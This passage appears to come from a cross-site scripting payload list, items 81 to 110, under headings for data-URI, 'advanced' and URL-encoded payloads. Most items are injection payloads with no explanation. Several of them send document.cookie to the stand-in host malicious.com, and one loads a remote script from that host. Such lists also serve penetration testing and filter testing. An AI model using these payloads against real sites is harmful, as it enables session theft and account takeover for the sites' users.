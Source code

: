 ## Custom Protocol Payload'ları
81. `<a href="data:text/html,<script>alert(1)</script>">Click me</a>`
82. `<a href="data:text/html,<script>fetch('https://malicious.com?cookie=' + document.cookie)</script>">Click me</a>`
83. `<a href="data:text/html,<script>eval('alert(1)')</script>">Click me</a>`
84. `<a href="data:text/html,<script>document.write('<img src=x onerror=alert(1)>')</script>">Click me</a>`
85. `<a href="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>">Click me</a>`
86. `<a href="data:text/html,<script>eval('alert(document.cookie)')</script>">Click me</a>`
87. `<a href="data:text/html,<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=alert(2)>' } })</script>">Click me</a>`
88. `<a href="data:text/html,<script>eval("fetch('https://malicious.com/?cookie='+document.cookie)")</script>">Click me</a>`
89. `<a href="data:text/html,<script>window['constructor']['prototype']['alert']('XSS')</script>">Click me</a>`
90. `<a href="data:text/html,<script>document.body.innerHTML = '<img src=x onerror=alert(1)>'</script>">Click me</a>`

## Various Advanced Payload'lar
91. `<svg xmlns="http://www.w3.org/2000/svg" onload="fetch('https://malicious.com/?cookie='+document.cookie)"></svg>`
92. `<script>document.body.innerHTML = '<iframe src="javascript:fetch(\'https://malicious.com/?cookie=\' + document.cookie)"></iframe>'</script>`
93. `<script>document.body.innerHTML = '<video src="javascript:alert(1)"></video>'</script>`
94. `<script>document.body.innerHTML = '<audio src="javascript:alert(1)"></audio>'</script>`
95. `<script>document.body.innerHTML = '<canvas onmouseover="alert(1)"></canvas>'</script>`
96. `<script>document.body.innerHTML = '<object data="javascript:alert(1)"></object>'</script>`
97. `<script>document.body.innerHTML = '<embed src="javascript:alert(1)"></embed>'</script>`
98. `<script>document.body.innerHTML = '<details open ontoggle="alert(1)">Details</details>'</script>`
99. `<script>document.body.innerHTML = '<summary onclick="alert(1)">Summary</summary>'</script>`
100. `<script>document.body.innerHTML = '<marquee onstart="alert(1)">Marquee</marquee>'</script>`

## Special Encoded Payload'lar
101. `%3Cscript%3Efetch%28%27https%3A%2F%2Fmalicious.com%2F%3Fcookie%3D%27%20%2B%20document.cookie%29%3C%2Fscript%3E`
102. `%3Cscript%3Eeval%28%27alert%28document.cookie%29%27%29%3C%2Fscript%3E`
103. `%3Cscript%3Edocument.write%28%27%3Cimg%20src%3D%22x%22%20onerror%3D%22alert%28document.cookie%29%22%3E%27%29%3C%2Fscript%3E`
104. `%3Cscript%20src%3D%22https%3A%2F%2Fmalicious.com%2Fxss.js%22%3E%3C%2Fscript%3E`
105. `%3Cscript%3Ewindow.location%20%3D%20%27javascript%3Aalert%28%27XSS%27%29%27%3C%2Fscript%3E`
106. `%3Cscript%3Efetch%28%27https%3A%2F%2Fmalicious.com%2F%3Fdata%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%29%3C%2Fscript%3E`
107. `%3Cscript%3Ewindow%5B%27constructor%27%5D%5B%27prototype%27%5D%5B%27alert%27%5D%28%27XSS%27%29%3C%2Fscript%3E`
108. `%3Cscript%3Edocument.body.innerHTML%20%3D%20%27%3Cimg%20src%3D%22x%22%20onerror%3Dalert%281%29%3E%27%3C%2Fscript%3E`
109. `%3Cscript%3EObject.defineProperty%28window%2C%20%27alert%27%2C%20%7B%20value%3A%20function%28%29%20%7B%20document.body.innerHTML%20%3D%20%27%3Cimg%20src%3Dx%20onerror%3Dalert%282%29%3E%27%20%7D%20%7D%29%3C%2Fscript%3E`
110. `%3Cscript%3Eeval%28%22fetch%28%27https%3A%2F%2Fmalicious.com%2F%3Fcookie%3D%27%2Bdocument.cookie%29%22%29%3C%2Fscript%3E`
